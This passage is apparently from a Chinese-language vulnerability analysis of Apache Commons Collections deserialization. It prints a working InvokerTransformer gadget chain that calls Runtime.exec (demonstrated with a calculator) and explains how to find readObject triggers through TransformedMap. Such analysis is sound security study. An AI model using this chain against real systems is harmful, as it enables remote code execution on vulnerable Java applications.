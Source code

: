 `iConstant`为类构造函数的传入参数，如类名所示，该函数的作用就是将它直接返回。

#### 命令执行调用链

综上所述，通过如下代码构造执行shell命令的调用链：

```java
public static Transformer generate_chain() {
    Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
            new InvokerTransformer("exec", new Class[] {String.class}, new Object[] {"gnome-calculator"})
        };
    Transformer transformedChain = new ChainedTransformer(transformers);

    return transformedChain;
}
```

直接对该函数的返回值调用`transform(null)`方法，能够直接执行shell命令，弹出计算器。

至此，shell命令执行代码链构造完成。

### 寻找反序列化时的触发点

下一步的任务是寻找对象在反序列化时，会调用`Transformer`类对象的`transform`函数的代码。

JAVA的序列化结果是以`ACED 0005`开头的二进制串，在反序列化的时候会调用对象的`readObject`函数，具体的JAVA反序列化的知识在此不再赘述。

寻找反序列化触发点的关键是：寻找在对象的`readObject`函数中能够直接或间接调用`transform`函数的情况。一般来说，不会有在`readObject`函数中直接调用`transform`函数的情形，需要寻找间接调用的情形（即在`readObject`函数所调用的函数中直接或间接调用了`transform`函数的情形）。

具体的方法可以是，从直接寻找调用了`transfrom`函数的方法开始，根据函数调用关系分析回溯，看是否能形成一个从`readObject`函数到`transform`函数的调用链条。

下文针对`TransformedMap`和`LazyMap`两个类中的反序列化漏洞触发情景进行分析和测试。

需要注意的是，如果使用Debug模式对程序进行分析调试，由于调试器会提前计算变量值，所以可能在程序执行到实际的漏洞触发代码前，shell指令就已经被执行。

#### TransformedMap 反序列化漏洞分析与测试

如上所述，接下来的目标是寻找在反序列化过程中能够调用`transform`的情境，以在反序列过程中执行构造好的命令执行链。

`TransformedMap`中的`checkSetValue`函数调用了`transform`函数，其函数原型如下：

```java
/**
 * Override to transform the value when using <code>setValue</code>.
 * 
 * @param value  the value to transform
 * @return the transformed value
 * @since Commons Collections 3.1
 */ 
protected Object checkSetValue(Object value) {         
    return valueTransformer.transform(value);
}
```
